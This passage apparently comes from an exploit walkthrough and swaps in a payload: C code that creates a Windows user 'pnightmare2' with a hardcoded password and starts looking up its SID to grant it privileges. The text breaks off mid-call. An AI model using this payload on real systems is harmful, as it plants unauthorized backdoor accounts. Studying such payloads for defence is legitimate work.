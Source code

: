 - Let’s change the payload with another code (source : https://github.com/newsoft/adduser )
    
```C++
/*
 * ADDUSER.C: creating a Windows user programmatically.
 */

#define UNICODE
#define _UNICODE
#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <tchar.h>

DWORD CreateAdminUserInternal(void)
{
    NET_API_STATUS rc;
    BOOL b;
    DWORD dw;

    USER_INFO_1 ud;
    LOCALGROUP_MEMBERS_INFO_0 gd;
    SID_NAME_USE snu;

    DWORD cbSid = 256;    // 256 bytes should be enough for everybody :)
    BYTE Sid[256];

    DWORD cbDomain = 256 / sizeof(TCHAR);
    TCHAR Domain[256];

    // Create user
    memset(&ud, 0, sizeof(ud));

    ud.usri1_name        = _T("pnightmare2");                // username
    ud.usri1_password    = _T("Test123456789!");             // password
    ud.usri1_priv        = USER_PRIV_USER;                   // cannot set USER_PRIV_ADMIN on creation
    ud.usri1_flags       = UF_SCRIPT | UF_NORMAL_ACCOUNT;    // must be set
    ud.usri1_script_path = NULL;

    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
```